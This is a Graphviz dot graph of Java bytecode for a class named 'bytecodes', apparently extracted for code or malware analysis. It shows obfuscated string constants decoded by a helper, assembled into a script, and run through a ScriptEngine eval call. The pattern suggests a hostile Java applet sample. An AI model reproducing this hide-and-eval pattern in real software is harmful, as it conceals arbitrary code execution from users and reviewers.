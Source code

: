 digraph "" {
    "r0 := @this: bytecodes"
    "new java.lang.StringBuilder"
    "r0 := @this: bytecodes"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"\u0006M\u001bV\\Q\u001dv\u0006W\u001bK\u0015\u0005O\u0005\u0014P\u001cF\u0006L\u001dKZ\fR^{\""
    "dup1.r"->"push \"\u0006M\u001bV\\Q\u001dv\u0006W\u001bK\u0015\u0005O\u0005\u0014P\u001cF\u0006L\u001dKZ\fR^{\"";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"
    "push \"\u0006M\u001bV\\Q\u001dv\u0006W\u001bK\u0015\u0005O\u0005\u0014P\u001cF\u0006L\u001dKZ\fR^{\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"\u0018\u0016\u0013\u0016\u0004\u0016\u0013\u0016\\\u0016\u001e\u0016\u0013\u0016\u001c\u0016\u0015\u0016\\\u0016!\u0016\u000b\u0016\u0001\u0016\u0006\u0016\u0017\u0016\u001f\u0011A\u000bA\u0011\u0001\u0011A@\u0006\u0016FvA\u0011\u0017\u0011AFA\u0011\u0007\u0016FWA\u0011\u001b\u0016FQA\u0011\u000b\u0016FhA\u0011\u0013KA\u0011\u0013\u0016FBA\u0011\u0017\u0016FWF\u0016Z\u0016FKA\u0011\u0007\u0016FIA\u0011\u001e\u0016F\fF\u0016I\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"\u0018\u0016\u0013\u0016\u0004\u0016\u0013\u0016\\\u0016\u001e\u0016\u0013\u0016\u001c\u0016\u0015\u0016\\\u0016!\u0016\u000b\u0016\u0001\u0016\u0006\u0016\u0017\u0016\u001f\u0011A\u000bA\u0011\u0001\u0011A@\u0006\u0016FvA\u0011\u0017\u0011AFA\u0011\u0007\u0016FWA\u0011\u001b\u0016FQA\u0011\u000b\u0016FhA\u0011\u0013KA\u0011\u0013\u0016FBA\u0011\u0017\u0016FWF\u0016Z\u0016FKA\u0011\u0007\u0016FIA\u0011\u001e\u0016F\fF\u0016I\"";
    "push \"\u0018\u0016\u0013\u0016\u0004\u0016\u0013\u0016\\\u0016\u001e\u0016\u0013\u0016\u001c\u0016\u0015\u0016\\\u0016!\u0016\u000b\u0016\u0001\u0016\u0006\u0016\u0017\u0016\u001f\u0011A\u000bA\u0011\u0001\u0011A@\u0006\u0016FvA\u0011\u0017\u0011AFA\u0011\u0007\u0016FWA\u0011\u001b\u0016FQA\u0011\u000b\u0016FhA\u0011\u0013KA\u0011\u0013\u0016FBA\u0011\u0017\u0016FWF\u0016Z\u0016FKA\u0011\u0007\u0016FIA\u0011\u001e\u0016F\fF\u0016I\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "push \"y\u0016\""
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"push \"y\u0016\"";
    "push \"y\u0016\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "push \"\""
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"{D\u0002U\u001e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"{D\u0002U\u001e\"";
    "push \"{D\u0002U\u001e\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"@\u0006\u000b\u0011D\u001eI0D\u0011NZ\fI\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"@\u0006\u000b\u0011D\u001eI0D\u0011NZ\fI\"";
    "push \"@\u0006\u000b\u0011D\u001eI0D\u0011NZ\fI\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"push \"y\u0016\"";
    "push \"y\u0016\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \",\u0000@\u0006P\u0000KRv\u0006W\u001bK\u0015\u000b\u0014\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \",\u0000@\u0006P\u0000KRv\u0006W\u001bK\u0015\u000b\u0014\"";
    "push \",\u0000@\u0006P\u0000KRv\u0006W\u001bK\u0015\u000b\u0014\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u0000J\u001ff\u001aD\u0000f\u001dA\u0017\rK\u0012R\u000eRh\u0013Q\u001a\u000b\u0000J\u0007K\u0016\r?D\u0006M\\W\u0013K\u0016J\u001f\r[\u0005X\u0005@\u0010[\fIXI@R\u0018RK\u0017\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u0000J\u001ff\u001aD\u0000f\u001dA\u0017\rK\u0012R\u000eRh\u0013Q\u001a\u000b\u0000J\u0007K\u0016\r?D\u0006M\\W\u0013K\u0016J\u001f\r[\u0005X\u0005@\u0010[\fIXI@R\u0018RK\u0017\"";
    "push \"\u0000J\u001ff\u001aD\u0000f\u001dA\u0017\rK\u0012R\u000eRh\u0013Q\u001a\u000b\u0000J\u0007K\u0016\r?D\u0006M\\W\u0013K\u0016J\u001f\r[\u0005X\u0005@\u0010[\fIXI@R\u0018RK\u0017\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"RR`\u0000W\u001dWZ\fI@\\H\u0017V\u0001D\u0015@R\u0018RQ\u001aL\u0001\u001e\u0017\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"RR`\u0000W\u001dWZ\fI@\\H\u0017V\u0001D\u0015@R\u0018RQ\u001aL\u0001\u001e\u0017\"";
    "push \"RR`\u0000W\u001dWZ\fI@\\H\u0017V\u0001D\u0015@R\u0018RQ\u001aL\u0001\u001e\u0017\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r28"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "staticinvoke <xff: javax.script.ScriptEngine dssaf()>"
    "store.r r28"->"staticinvoke <xff: javax.script.ScriptEngine dssaf()>";
    "staticinvoke <xff: javax.script.ScriptEngine dssaf()>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r $r21"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r $r21";
    "load.r $r21"
    "store.r $r21"->"load.r $r21";
    "push \"D\u0002U\u001e@\u0006\""
    "load.r $r21"->"push \"D\u0002U\u001e@\u0006\"";
    "push \"D\u0002U\u001e@\u0006\""->"staticinvoke <xff: java.lang.String h(java.lang.String)>";
    "load.r r0"
    "staticinvoke <xff: java.lang.String h(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "load.r r28"
    "pop"->"load.r r28";
    "load.r r28"->"load.r $r21";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r $r21"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"store.r $r21";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "store.r $r21"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"->"return";
    "store.r $r21"->"load.r r0";
    "load.r r0"->"load.r $r21";
    "staticinvoke <xff: java.awt.Component xpp(java.lang.Object)>"
    "load.r $r21"->"staticinvoke <xff: java.awt.Component xpp(java.lang.Object)>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"
    "staticinvoke <xff: java.awt.Component xpp(java.lang.Object)>"->"virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"return";
}
